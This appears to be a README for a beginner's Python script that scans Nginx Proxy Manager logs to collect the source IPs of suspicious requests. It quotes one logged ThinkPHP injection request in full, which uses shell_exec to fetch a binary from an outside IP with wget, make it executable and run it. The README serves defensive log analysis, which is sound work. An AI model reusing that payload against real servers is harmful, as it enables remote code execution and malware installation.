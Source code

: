 # Update

I have found a way to filter out the IPs that send these requests and I've made a new script that does precisely that. To make it easier for anyone to run this script I've also implemented a simple menu for users to navigate trough with the ability to first parse the logs to find out any requests similar to the ones I've found and after that filter out all of this requests and it builds an list of indidual IPs that sent these requests.
It also creates all the directories it needs to work properly, and the only set up you need to do is the following:
1- 

# About this script

The idea behind this script comes from finding out a bunch of really strange requests to my Nginx Proxy Manager container that is open to the internet.
The requests in case are almost always identical to this:

`[13/Jan/2021:15:07:48 +0000] 400 - GET http localhost-nginx-proxy-manager "/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.174/bins/MwEIrNsdFa.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp'" [Client 220.127.239.7] [Length 154] [Gzip -] "Uirusu/2.0" "-"`

The client IP is always different from what I can tell so far and the IP that it tries to wget is almost always different, trying to run that wget command will give you an "Not Authorized" response. **This script is not a solution for this issue** it just goes trough your NPM logs and finds out all the requests similar to this and puts them in a different file, I started out with a log file with 370 requests and, after running this script I got 108 requests that match the one I posted above, keep in mind that these 370 requests come from a timespan of less than 36h. And yes I am aware that NPM does not use PHP so this attempt to inject an PHP script most likely never runs ence the 400 (bad request) response from NPM, *however the authors of this could move from trying to inject PHP payloads to injecting something else that could work!*

This script reads trough your Nginx Proxy Manager logs, specially the **default.log** file stored inside your npm directory, right now you need an copy of the logs directory inside the root of this script's folder with the name of *logs*, you also need to create a directory called **parsed** so that the script can write a file with all of the requests that it looks for. It also asks for your Public IP in order to filter out your own requests to your npm server.

After running the script it will tell you how many results it got and it will also create a file that stores all of the requests it finds inside the **parsed** directory inside a file called **parsed-default.log**

Right now this scripts only does this, however I'm going to keep developing this script until it is able to extract a list of IPs from the *parsed-default.log*, besides doing this, the script will also be able to tell if the same IP tries to make this request more than once, the point of this is to see if these requests come from all over the world or just from countries known to have botnets like this running, like Iran, China and so on. So far I can say that this is not the case, because I've already found IPs from Italy and the UK that seem residential IPs but further investigation is required to reach an conclusion.

For anyone thinking that bulk blocking the IP ranges that this script find keep in mind that these IPs could also be comming from countries in the world that usually are known for not having these kinds of requests and you could possibly block people that you actually want to access your services without even knowing.

And finally a disclaimer, I am by no means a Python expert, just started to learn it less than a month ago, so it's probably going to take a while before I'm able to filter out the requests into a list of IP's. If you are willing to help me improve this script onto something that could help the NPM developers develop an fix for this feel free to contact me.
